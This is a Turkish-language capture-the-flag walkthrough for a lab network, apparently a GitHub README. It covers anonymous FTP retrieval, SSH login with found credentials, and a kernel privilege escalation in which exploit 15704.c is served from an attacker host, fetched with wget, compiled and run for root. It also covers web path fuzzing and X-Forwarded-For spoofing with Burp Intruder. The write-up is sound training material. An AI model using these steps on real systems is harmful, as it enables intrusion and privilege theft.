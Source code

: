 ### Level1:

- Yerel agda up olan sistemler IP adresi bazinda tespit edilip up.txt isimli dosya icine yazilacak.

- Bu up.txt uzerinden TCP/44321 portu acik sistem tespit edilecek.

- Ilgili port uzerinde bu sistem uzerinde erisim elde edilecek ve hidden.dmp dosyasi elde edilecek

### Level2:

- Hidden.dmp dosyasi icindeki ipucu elde edilip level3'e gecilecek.

### Level3:

- Ipuclari takip edilecek

### Level4:

- Ipuclari takip edilecek.

### START

**HEDEF: 192.168.1.110**

- 44321 portunda anonymous ftp üzerinden hidden.dmp elde edildi.
hidden.dmp icerisinde 191 ip'sine bga bga123 ssh bağlantısı yapılmış. ağdaki 22 portu açık hostları arıyoruz.

		=> ssh bga@192.168.1.125
		ssh password: bga123
		=> cd bga1/
		=> ./exploit
		=> cd root
		=> cat ipucu.txt

- ipucu.txt => V1dWeVpXd2dZY1NmWkdFZ09EQWdjRzl5ZEhVZ1ljT254TEZySUhOcGMzUmxiV3hsY2lCaWRXeDFibUZqWVdzc0lHSjFJSE5wYzNSbGJXeGxjbVJsSUM5amRHWWdZV3dnWkdsNmFXNXBJRzlzWVc0Z2JXRnJhVzVoSUdKMWJIVnVkWEFnWW5WeVlXUmhiaUJEVkVZZ1pHVjJZVzBnWldScGJHVmpaV3N1PT0==
=> Yerel ağda 80 portu açık sistemler bulunacak, bu sistemlerde /ctf al dizini olan makina bulunup buradan CTF devam edilecek.

**HEDEF: 192.168.1.117/ctf**

- Tebrikler CTF baslangic sayfasini buldunuz.
Fakat sistem yalnizca 6.6.6.0/24 subnetindeki bir IP adresinden erisilebilmektedir:

- 192.168.1.137'de access point kurulum sayfasi var!

### ÇÖZÜM

**- ÇÖZÜMDE KULLANMADIĞIM PARAMETRELER & KOMUTLAR:**

		=> nmap -n -v -PN -p 44321 --open -sV -iL up.txt

- Local exploit kullanarak root olmak ve çözümün devamı:

		=> ssh bga@192.168.1.125
		=> uname -a 		(linux kernel 2.6.35-22-generic x86_64)
		
		=> searchsploit	kernel	(linux/local/15704.c)
		=> locate linux/local/15704.c
		=> cp /usr/share/exploitdb/platforms/linux/local/15704.c /var/www/html/
		=> python -m SimpleHTTPServer
		
		=> wget OUR_IP/15704.c
		=> gcc 15704.c -o lolz
		=> ./lolz
		=> cd /root/
		=> cat ipucu.txt
		
		=> base64 decoder 2x
		=> nmap -n -v -PN -iL up.txt -p 80 --open | grep 'report for' | cut -d ' ' -f5 > 80.txt
		=> more 80.txt
		=> wfuzz -c --hc 404,XXX -z file,80.txt http://FUZZ/ctf		(http://192.168.1.117/ctf/)
		=> BurpSuite 	(Proxy -> Intercept -> Options)
		B> 192.168.1.117/ctf
		B> firefox ayarlar > foxyproxy (eklenti) -> 127.0.0.1:8080 -> git
		Burp> Send it to Intruder
		Burp> header'a 3.satira ekle => X-Forwarded-For:6.6.6.$1$
		Burp> payloads -> Numbers -> 1-254 
		Burp> start attacks
		B> LiveHTTPHEADER (firefox eklenti)
		B> 192.168.1.117'ye su sekilde git: header'a ekle => X=Forwarded-For:6.6.6.102
		B> kaynak kodu goruntule, javascript koduna bak.
